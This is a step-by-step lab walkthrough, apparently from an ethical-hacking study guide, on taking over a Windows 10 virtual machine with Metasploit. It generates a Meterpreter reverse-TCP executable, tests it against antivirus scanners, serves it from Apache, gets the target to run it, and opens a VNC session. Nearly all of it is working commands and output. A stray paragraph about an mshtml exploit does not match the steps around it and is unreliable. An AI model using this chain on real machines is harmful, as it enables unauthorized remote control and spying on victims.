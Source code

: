 # Exploiting Client Side Vulnerabilities and Establishing a VNC session
Attackers use client-side vulnerabilities to exploit unpatched software, thereby attaining access to the machine on which the software is installed.

VNC enables attackers to remotely access and control computers targeted from another computer or mobile device, wherever they are in the world. At the same time, it is also used by administrator and organizations throughout every industry sector for a range of different scenarios and use cases, including providing IT desktop support to colleagues and friends, and accessing systems and services on the move.

### Objectives
* How to exploit client-side vulnerabilities and establish a VNC session.

### Requisites
* Kali Linux virtual machine (Attacker).
* Windows 10 virtual machine (Target).


## Launch Metasploit Framework

Launch Kali Linux and open the Terminal window and type:

`msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=10.0.2.42 LPORT=444 -o /root/Desktop/Test.exe`

**Note**: LHOST is the IP address of your Kali machine.

This command will generate Test.exe, a malicious file on Desktop as shown in below:

```
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes
Saved as: /root/Desktop/Test.exe
```

You can also try this by using the `msfconsole`. 

To check the malicious file that you created, go to https://nodistribute.com/ or https://antiscan.me and upload the file:

![AntiScan.Me](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/0e16bfcaba630b14ba1efa3ca24e061158247558/antiscan.png)


This site will perform a scan over 20 AV softwares databases. **Do not upload your backdoors or any file to virusTotal.**

## Share the malicious file on target
Now create a directory to share this file with the target machine provide the permissions and copy the file from Desktop to shared location:

Create a directory on html folder:<br>
`mkdir /var/www/html/share/`<br>

Change the mode for the share to **755**:<br>
`chmod -R 755 /var/www/html/share/`<br>

Change the ownership of that folder to **www-data**:<br>
`chown -R www-data:www-data /var/www/html/share/`

Now copy the malicious file to the shared location:<br>
`cp /root/Desktop/Test.exe /var/www/html/share/`

Next, start the apache service:<br>
`service apache2 start`


Open a new terminal window and type `msfconsole` to launch Metasploit Framework.

Use the `multi/handler` to capture the session.

![msfconsole](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/3f818aa7902d7d0c864577c885b2a16c1b5caa33/msfconsole.png)

In msfconsole:
1. `use multi/handler`
2. `set payload windows/meterpreter/reverse_tcp`
3. set the `LHOST` to your Kali IP address and `LPORT` to 444
4. `run` the exploit

#### Reverse TCP
A reverse shell (also known as a connect-back) is the exact opposite: it requires the attacker to set up a listener first on his box, the target machine acts as a client connecting to that listener, and then finally the attacker receives the shell.

This module exploits memory corruption vulnerability within Microsoft's HTML engine (mshtml). When parsing an HTML page containing a recursive CSS import, a C++ object is deleted and later reused.

## On Windows machine
Remember to deactivate all Windows Defender parameters.

Launch the browser and type the IP address of the Kali machine that are running apache webserver and download the **Test.exe**. 

In my case is `http://10.0.2.42/share`

![Test.Exe](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/48fe2ec77ebde90c0febb208704e4172b60b4428/testexe.png)

Double click  **Test.exe**.<br>
You will get a Security Warning window, click **run**.

![Sec Warning](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/87089f69512685222b66d10ab10832f0382538f9/securityWarningWin.png)

## Meterpreter 
Switch to Kali Linux machine and check if there is any session that are opened in the Meterpreter Shell as shown below:

![meterpreter](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/87089f69512685222b66d10ab10832f0382538f9/meterpreter.png)

Meterpreter is a Metasploit attack payload that provides an interactive shell from which an attacker can explore the target machine and execute code.

Useful commands:
https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/

About Meterpreter:
https://doubleoctopus.com/security-wiki/threats-and-tools/meterpreter/

## Remote View in Kali Linux
Now, you can create a VNC session on Windows 10 machine remotely by typing:

`run vnc`

This command will open a VNC session of the Target's machine as shown below:

![vnc](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/78278f30571b9988b108c92defcd91134886c404/vnc.png)

Useful links:

* [Metasploit Cheat Sheet - SANS](https://www.sans.org/security-resources/sec560/misc_tools_sheet_v1.pdf)
* [Meterpreter Cheat Sheet](https://www.blueliv.com/downloads/Meterpreter_cheat_sheet_v0.1.pdf)